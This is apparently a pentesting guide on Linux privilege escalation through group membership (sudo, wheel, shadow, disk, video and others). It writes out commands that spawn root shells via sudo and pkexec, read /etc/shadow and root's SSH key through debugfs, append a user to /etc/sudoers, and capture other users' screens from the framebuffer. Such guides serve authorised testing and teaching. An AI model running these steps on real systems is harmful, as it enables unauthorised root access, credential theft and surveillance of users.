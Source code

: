 # PrivEsc via Groups

When accessing with user X, sometimes, when executing the id command, we can be in groups where, if certain conditions are met, we can escalate privileges.

## sudo

{% hint style="info" %}
For method 2, a password is required. For method 1 it is not necessary but it may vary in some cases.
{% endhint %}

{% tabs %}
{% tab title="PE - Method 1" %}
Sometimes, by default (or because some software needs it) inside the `/etc/sudoers` file you can find some of these lines:

```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL # echo "<USERNAME> ALL=(ALL:ALL) ALL" >> /etc/sudoers

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```

This means that **any user belonging to the sudo or admin group can run anything as sudo**.

We can also verify it by executing the command: `sudo -l`

If this is the case, to **become root just run**:

```bash
sudo su
```
{% endtab %}

{% tab title="PE - Method 2" %}
Finds all suid binaries and checks if the `pkexec` binary exists:

```bash
find / -perm -4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null | grep -i pkexec
```

If you find that `pkexec` **is a SUID** binary and you belong to **sudo** or **admin group**, you can probably run the binaries as sudo using `pkexec`. This is because those are typically the groups within the **polkit** policy. This policy basically identifies which groups can use `pkexec`. Check it with:

```bash
cat /etc/polkit-1/localauthority.conf.d/*
```

There you will find which groups can run **pkexec** and **default** on some linux disks to **sudo** and **admin** groups.

```bash
AdminIdentities=unix-group:sudo;unix-group:admin # Default in Ubuntu
```

To **be root you can run**:

```bash
pkexec "/bin/sh" # You will be prompted for your user password.
```

If you try to run **pkexec** and get this **error**:

```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```

**It's not because you don't have permissions but because you are not logged in without a GUI**. And there is a solution for this problem [here](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). You need **2 different ssh sessions**:

```bash
echo $$ # Step1: Get current PID
pkexec "/bin/bash" # Step 3, execute pkexec
# Step 5, if correctly authenticate, you will have a root session
```

```bash
pkttyagent --process <PID of session1> # Step 2, attach pkttyagent to session1
# Step 4, you will be asked in this session to authenticate to pkexec
```
{% endtab %}
{% endtabs %}

## adm

When we are in the adm group, we can see the log files (.logs) in the `/var/log` directory. There we can find:

* Credentials: sometimes, we users make the mistake of logging in to some service with the password as the user, because we thought we had copied the username. This is saved in the logs.
* New logs: There can be customized logs, where we could find interesting things.
* Users: Of this, there is no need to explain.
* Routes: Possible routes in a web server.
* Domains.
* Hosts/IPs.

{% hint style="info" %}
Tip: Have a hawk eye and enumerate.
{% endhint %}

## wheel

Sometimes, by default inside the /etc/sudoers file you can find this line:

```bash
%wheel	ALL=(ALL:ALL) ALL
```

This means that any user belonging to the wheel group can run anything like sudo. If this is the case, to become root just run:

```bash
sudo su
```

## shadow

Users in the **shadow group** can **read** the **/etc/shadow** file:

```bash
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```

Then, read the file and try to **crack some hashes**.

## disk

This privilege is almost **equivalent to root access** since you can access all the data inside the machine.

Files: `/dev/sd[a-z][1-9]`

```bash
df -h # Find where "/" is mounted
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```

Note that using debugfs you can also **write files**. For example to copy `/tmp/asd1.txt` to `/tmp/asd2.txt` you can do:

```bash
debugfs -w /dev/sda1
debugfs: dump /tmp/asd1.txt /tmp/asd2.txt
```

However, if you try to **write files owned by root** (such as `/etc/shadow` or `/etc/passwd`) you will get a "**Permission denied**" error.

## video

Using the command `w` you can find **who is logged on the system** and it will show an output like the following one:

```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```

The **tty1** means that the user **yossi is logged physically** to a terminal on the machine.

The **video group** has access to view the screen output. Basically you can observe the the screens. In order to do that you need to **grab the current image on the screen** in raw data and get the resolution that the screen is using. The screen data can be saved in `/dev/fb0` and you could find the resolution of this screen on `/sys/class/graphics/fb0/virtual_size`

```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```

To **open** the **raw image** you can use **GIMP**, select the \*\*`screen.raw` \*\* file and select as file type **Raw image data**:

![](../../../.gitbook/assets/video\_gimp1.png)

Then modify the Width and Height to the ones used on the screen and check different Image Types (and select the one that shows better the screen):

![](../../../.gitbook/assets/video\_gimp2.png)
